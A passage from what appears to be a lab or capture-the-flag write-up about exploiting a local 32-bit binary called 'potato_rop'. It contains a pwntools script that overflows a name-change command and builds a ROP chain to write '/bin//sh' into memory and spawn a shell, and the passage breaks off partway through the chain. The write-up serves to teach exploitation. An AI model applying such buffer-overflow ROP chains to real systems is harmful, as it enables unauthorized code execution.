 This returns a gadget which does not `pop esi`: `0x0806a8bc : inc eax ; pop edi ; ret`.
By replacing all occurrences of the gadget above with the new one:

```python
p += pack('<I', 0x0806a8bc) # inc eax ; pop edi ; ret
p += pack('<I', 0x41414141) # padding
```

We obtain a working ROP chain which gives us a shell:

```python
#!/usr/bin/env python3

from pwn import *
from struct import pack

import sys

elf = ELF("./potato2/potato_rop")
context.binary = elf
context.arch = 'i386'
context.bits = 32
context.endian = 'little'
context.os = 'linux'

process = elf.process(["console"], stdin=PTY, aslr=False) # stdin=PTY for "getpass" password input
gdb.attach(process, '''
#break func.c:183
break *change_name + 138
continue
''')

print(process.recvuntil(b"cmd> ")) # username
process.sendline(b"login")
# test user
process.sendline(b"peter")
process.sendline(b"12345")
print(process.recvuntil(b"cmd> ")) # username

process.sendline(b"changename")

# Padding goes here
p=b"\x41"*58 + p32(0x080e53c2)

# ROP sequence
p += pack('<I', 0x0806970e) # pop edx ; pop ebx ; pop esi ; ret
p += pack('<I', 0x0811e040) # @ .data
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x0804be89) # pop eax ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
p += b'/bin'
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x0807d1fb) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806970e) # pop edx ; pop ebx ; pop esi ; ret
p += pack('<I', 0x0811e044) # @ .data + 4
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x0804be89) # pop eax ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
p += b'//sh'
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x41414141) # padding
```